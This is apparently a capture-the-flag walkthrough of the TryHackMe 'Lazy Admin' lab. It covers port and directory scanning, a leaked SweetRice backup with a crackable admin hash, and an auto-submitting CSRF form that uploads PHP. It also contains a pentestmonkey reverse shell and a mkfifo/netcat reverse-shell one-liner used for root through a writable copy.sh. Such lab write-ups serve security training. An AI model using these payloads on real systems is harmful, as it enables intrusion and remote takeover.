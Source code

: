 # Lazy Admin - TryHackMe WriteUp
# By 0xRar



## Scanning
```
nmap -T4 -p- -A -sC -Pn 10.10.207.204
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-22 19:12 EST
Nmap scan report for 10.10.207.204
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- We see that we have port 80 open lets check that out first:
`http://MACHINE_IP` we can see the Apache2 Ubuntu Default Page.


lets check what directories do we have:
```
/

gobuster dir -u 10.10.207.204 -w /usr/share/wordlists/dirb/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/content (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)



/content

gobuster dir -u 10.10.207.204/content -w /usr/share/wordlists/dirb/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/index.php (Status: 200)
/js (Status: 301)

```

> By taking a look at the source code of the `/content`
> we can see that we have a js linked `http://10.10.207.204/content/js/SweetRice.js`
> by checking the js file we see that the `cms: SweetRice version is 0.5.4`


## Exploitation

- Now that we have the cms name and version we can search for exploits
```
searchsploit SweetRice
as we can see there is 2 interesting exploits here:
SweetRice 1.5.1 - Backup Disclosure /content/inc/mysql_backup/ (https://www.exploit-db.com/exploits/40718)
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution (https://www.exploit-db.com/exploits/40700)
```

- After downloading the mysql backup it seems like the file type is php script 
`file mysql_bakup_20191129023059-1.5.1.sql`

- After going through the file and reading the content we can see the username and the passwd:
```
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\

username : manager

the passwd looks like an md5 hash we can crack it at (https://crackstation.net/)

passwd : Password123
```

- Looking at the directiries we see the login page at `http://10.10.207.204/content/as/`
- Logging in gave us nothing , so lets check out the other exploit it will allow us to execute code , it means we can get a reverse shell

```
first lets edit our exploit.html , and change the localhost to our MACHINE_IP
and change the location of the login page

<html>
<body onload="document.exploit.submit();">
<form action="http://MACHINE_IP/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

firefox exploit.html &

Running the exploit.html twice will upload our PoC

going to (http://10.10.207.204/content/inc/ads/hacked.php), if you can see the phpinfo() page
that means your exploit worked !
```


- Now we can use a reverse shell to gain access
```
i use (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

instead of using this ,
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>

we delete it and paste in our php shell,
 than firefox exploit.html again 
```

- Lets listen via nc `nc -lnvp 4444`
- We can see our shell is uploaded lets run it by going to `/content/inc/ads/shellname.php`


- Lets go get our user flag
```
cd home/itguy
cat user.txt

THM{********************************}    
```


## Privilege Escalation

```
in the itguy dir we see a backup.pl

we see that backup.pl is calling  /etc/copy.sh and copy.sh is writeable for users

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MACHINE_IP 7777 >/tmp/f
```

- Lets open a new terminal and listen via nc again  `nc -lnvp 7777`

```
now lets run backup.pl so it calls copy.sh than trigger our shell

cd root

cat root.txt

THM{********************************}

```

## This machine is an example for chaining 2 exploits to gain access.
## Thank you for reading 
